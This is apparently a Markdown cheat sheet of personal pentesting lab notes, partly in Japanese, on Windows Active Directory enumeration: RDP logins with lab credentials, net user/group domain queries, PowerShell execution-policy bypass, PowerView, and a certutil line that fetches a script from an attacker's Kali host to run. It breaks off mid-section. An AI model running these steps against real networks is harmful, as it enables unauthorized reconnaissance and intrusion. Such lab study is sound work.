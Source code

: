 # Remote Desk Top
specifying domain with `-d` flag may be important

```
rdesktop -d corp -u offsec -p lab 192.168.160.10

xfreerdp /u:sqlServer /p:shantewhite /v:10.11.1.121
```


# Domain Name and Domain Controller Name
## Show Domain-Name And Windows-User-Name

```set user```

(Domain-Name = USERDOMAIN, USERNAME = Windows-Users-Name)

## Show Domain-Controller's Name And Domain-Name

現在ログインし ているユーザの Domain オブジェクトを取得。

```powershell [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()```

`Name`プロパティが「ドメイン名」、`PdcRoleOwner`が「プライマリドメインコントローラ名」。


# Users And Groups
## List Local Accounts
```net user ```

## List All Users In Domain
```net user /domain```

## Show Each User's Info
```net user <username> /domain```

## List All Groups In Domain
```net group /domain```


# Enum All Users And Services

```
C:\> powershell -ep bypass

PS> Import-Module .\PowerView.ps1
PS> Get-NetUser
```

または

```
PS> . .\PowerView.ps1
```


(certutil -URLcache -f http://<Kali's IP>/enum_users.ps1 enum_users.ps1)

```PS > powershell -ep bypass .\enum_users.ps1```

# Curret Logged In Users And Active Sessions

> NetWkstaUserEnum API を使用して Windows 10 クライアントマシン上のローカルユーザを列挙し、NetSessionEnum を使用し てドメインコントローラ上のユーザのアクティブセッションを列挙します。
```